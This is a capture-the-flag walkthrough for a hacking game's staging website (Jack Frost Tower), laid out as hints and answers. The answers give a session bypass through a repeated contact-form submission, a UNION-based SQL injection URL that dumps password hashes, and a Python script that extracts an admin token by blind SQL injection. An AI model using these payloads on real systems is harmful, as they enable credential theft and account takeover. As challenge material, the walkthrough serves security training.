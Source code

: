 ## Summary
At the top right of the main courtyard, after thawing the Frost Tower door and fixing the Frostivator elevator, go to the top floor, Jack's Office. Enter the left room, called Studio, and talk with Ingreta about the Frost website and download the sourcecode. You will practice sourcecode review and web application hacking.

## Steps
1. Review the sourcecode for flaws. If you aren't able to find anything, you can go complete the Python coding challenges (where you move the little elf to collect candies) and after level 8, the elf there will give you a few hints about where the Frost Tower Website is vulnerable.
<details>
  <summary>The Elf's Hint</summary>
  He tells you to review a couple of lib docs - the npm express-session package (https://www.npmjs.com/package/express-session) and the mysqljs/mysql package (https://github.com/mysqljs/mysql).
</details>

2. Exploit the first vulnerability on the https://staging.jackfrosttower.com/ website
<details>
  <summary>Hint 1</summary>
  The server.js file imports the express-session package. Take a look at how it uses this lib to find developer flaws in session management.
</details>

<details>
  <summary>Hint 2</summary>
  The server.js file assigns the unauthenticated user a session when a certain unauthenticated call is made with certain logic. Try to trigger it and verify a valid session by browsing to the session-protected /dashboard page.
</details>

<details>
  <summary>Hint 3</summary>
  The server.js "/postcontact" method assigns the user a session when certain logic is followed. Try to trigger it and verify a valid session by browsing to the session-protected /dashboard page.
</details>

<details>
  <summary>Answer</summary>
  Submit the /contact form using some email address. Submit the form again, using the same email address. You now have a session and can navigate to /dashboard to confirm.
</details>

3. Exploit the second vulnerability on the https://staging.jackfrosttower.com/ website
<details>
  <summary>Hint 1</summary>
  The server.js file imports the mysql package. Take a look at the official docs to identify potential mistake points where developers may accidentally insecurely implement classes/calls.
</details>

<details>
  <summary>Hint 2</summary>
  The server.js "/detail/:id" method is a good place to look.
</details>

<details>
  <summary>Hint 3</summary>
  The server.js "/detail/:id" method calls the insecure raw() method on the mysql connection to execute a raw query. Try to manipulate the user input to exploit this vulnerability.
</details>

<details>
  <summary>Answer</summary>
  While "/detail/1,1 or 1=1" will successfully return all uniquecontact details, a UNION-based SQL injection will give you all database user password hashes too! You can build this exploit by reviewing the database tables sourcecode.
  https://staging.jackfrosttower.com/detail/1,2,4%20union%20select%20*%20from%20users--
</details>

4. Exploit the second vulnerability...again...
<details>
  <summary>What's this about?...</summary>
  After getting SQL injection and the password hashes, can we login as someone? (I didn't crack any hashes...)
</details>

<details>
  <summary>Hint 1</summary>
  There are some super-protected pages that need special perms on top of a session. Can you figure out how to get in?
</details>

<details>
  <summary>Hint 2</summary>
  Take a look at how the "token" value is used and think about how it can be obtained and used.
</details>

<details>
  <summary>Answer</summary>
  I bruteforced the Super Admin token (mxCamxRUVgBWr3l7uFR8uUbuQcAa496e) and reset their password and logged in as them. Code below. (CHANGE THE SESSION ID IN THE CODE!)

```
import requests, string
ALL = list(string.ascii_letters)
ALL.extend(string.digits)
print(ALL)
FINAL = ''

def test():
    global FINAL
    for injection in ALL:
        url = 'https://staging.jackfrosttower.com/detail/1,1%20union%20select%20*%20from%20users%20where%20id=1%20and%20token%20like%20%22HERE%25%22--'
        url = url.replace('HERE',FINAL + injection)

        r = requests.get(
            url,
            cookies={"connect.sid": "YOUR SESSION ID"}
        )
        # print(r.status_code)
        # print(r.text)
        if r.status_code!=200:
            FINAL = FINAL + injection
            print("FINAL: ", FINAL)
            if len(FINAL)==32:
                exit('DONE')

for i in range(0,32):
    test()

print('DONE')
```

</details>
